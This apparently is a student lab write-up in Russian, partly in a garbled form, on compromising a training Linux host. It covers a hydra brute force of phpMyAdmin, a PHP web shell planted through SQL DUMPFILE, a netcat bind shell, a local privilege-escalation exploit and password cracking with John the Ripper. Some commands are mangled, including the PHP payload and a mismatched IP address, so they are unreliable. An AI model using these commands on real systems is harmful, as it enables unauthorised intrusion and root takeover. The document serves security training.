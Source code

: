 <img width="364" alt="image" src="https://github.com/kirasir1/toib_prak/assets/13931629/f1320945-7131-43f2-af96-60c88024da11"># Лабораторная работа №3
## Исходные данные
IP адрес злоумышленника: 192.168.56.101
IP адрес атакуемого хоста: 192.168.36.102
## Сканируем хост
<img width="416" alt="image" src="https://github.com/kirasir1/toib_prak/assets/13931629/6f276657-8ebf-4e3d-8c14-d09ed25932dc"><br /><br />
<img width="413" alt="image" src="https://github.com/kirasir1/toib_prak/assets/13931629/52b6fd76-f4c9-4da8-8f08-f19c0ad193d0">
## Эксплуатируем уязвимость на хосте
`hydra -l root –P /home/exalt/Desktop/Wordlist/darkc0de.Ist –f –e ns –vV`<br /><br />
<img width="400" alt="image" src="https://github.com/kirasir1/toib_prak/assets/13931629/57872aa8-177a-454c-b9bd-f2584603ee85"><br /><br />
192.168.56.102 http-post-form *phpmyadmin/index <br /><br />
<img width="364" alt="image" src="https://github.com/kirasir1/toib_prak/assets/13931629/3291f2a2-610c-4507-ac53-bcd9397b54eb"><br /><br />
PHP: `<pre><?@system(s GET] cmd*}};?></pre>`<br /><br />
<img width="378" alt="image" src="https://github.com/kirasir1/toib_prak/assets/13931629/9b70188f-8df8-4f78-82d7-710ec663c029"><br /><br />
SQL: `SELECT * INTO DUMPFILE "/usr/local/apache/htdocs/homepage/shell.php" 	FROM hack; ` <br /><br />
<img width="326" alt="image" src="https://github.com/kirasir1/toib_prak/assets/13931629/f3d0714a-b308-47e5-ae68-63c30121c437"><br /><br />
<img width="396" alt="image" src="https://github.com/kirasir1/toib_prak/assets/13931629/6175a878-8cb4-49a7-ad6d-9aa1cc05a337"><br /><br />
Netcat: `nc -l -v -p 1234 -e /bin/bash` <br /><br />
<img width="423" alt="image" src="https://github.com/kirasir1/toib_prak/assets/13931629/4dfc5a78-6b9c-4a1d-b8b4-49630ee4cfb7">
## Повышение привилегий с помощью уязвимости Linux nullpointer exploit
`gcc -o /tmp/run /usr/local/apache/htdocs/homepage/run.c
gcc –o /tmp/exploit /usr/local/apache/htdocs/homepage/exploit.c
cd /tmp 
./run`<br /><br />
<img width="438" alt="image" src="https://github.com/kirasir1/toib_prak/assets/13931629/08bb3e5f-6415-4d66-9de8-fc3b3b0e1d77"><br /><br />
<img width="435" alt="image" src="https://github.com/kirasir1/toib_prak/assets/13931629/b640a111-358c-47a2-b51a-3c3807f4e770"><br /><br />
<img width="433" alt="image" src="https://github.com/kirasir1/toib_prak/assets/13931629/2925ddfc-bb37-4a03-bd66-10081e439931">
## Получаем доступ с помощью John The Ripper 
`unshadow passwd shadow > pass.pwd `<br /><br />
`john --wordlist=-/Desktop/wordlist/darkcode.lst pass.pwd`<br /><br />
<img width="386" alt="image" src="https://github.com/kirasir1/toib_prak/assets/13931629/6d399d03-b59e-4144-a760-8c1dc8549550"><br /><br />
`ssh root@192.168.56.102`<br /><br />
<img width="411" alt="image" src="https://github.com/kirasir1/toib_prak/assets/13931629/3f1fb862-08a1-4620-87cc-79fb23a83106">
